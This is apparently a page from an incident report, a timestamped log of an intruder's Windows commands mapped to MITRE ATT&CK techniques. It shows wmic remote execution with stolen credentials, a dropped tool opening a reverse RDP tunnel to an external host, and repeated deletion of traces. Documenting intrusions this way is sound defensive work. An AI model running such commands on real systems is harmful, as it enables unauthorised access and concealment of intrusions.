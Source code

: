 
15:55:14
wmic /node:"<redacted IP #3>" /user:<redacted domain>\<redacted username #2> /PASSWORD:<redacted password #1> process call create "cmd.exe /c c:\windows\temp\RTQ.exe 192.119.110[.]194 -C -R 0.0.0.0:8084:0.0.0.0:3389 -l bor -pw 123321 -P 443"
T1047, T1572, T1021.001


15:56:55
del \<redacted IP #3>\C$:\windows\temp\RTQ.exe
T1070.004, T1021.002


15:57:03
del \<redacted IP #3>\C$\windows\temp\RTQ.exe
T1070.004, T1021.002


15:57:10
del \<redacted IP #3>\C$\windows\temp\RTQ.exe /F
T1070.004, T1021.002


15:58:00
wmic /node:"<redacted IP #3>" /user:<redacted domain>\<redacted username #2> /PASSWORD:<redacted password #1> process call create "cmd.exe /c del c:\windows\temp\RTQ.exe /F"
T1047, T1070.004


15:58:05
wmic /node:"<redacted IP #3>" /user:<redacted domain>\<redacted username #2> /PASSWORD:<redacted password #1> process call create "cmd.exe /c del c:\windows\temp\RTQ.exe"
T1047, T1070.004


15:58:19
dir \<redacted IP #3>\C$:\windows\temp\*.exe
T1083, T1021.002


15:58:25
dir \<redacted IP #3>\C$\windows\temp\*.exe
T1083, T1021.002


15:58:38
dir \<redacted IP #3>\C$\windows\temp\r.txt
T1083, T1021.002


15:58:43
del \<redacted IP #3>\C$\windows\temp\r.txt
T1070.004, T1021.002


15:59:25
wmic /node:"<redacted IP #3>" /user:<redacted domain>\<redacted username #2> /PASSWORD:<redacted password #1> process call create "cmd.exe /c tasklist > C:\windows\temp\r.txt"
T1047

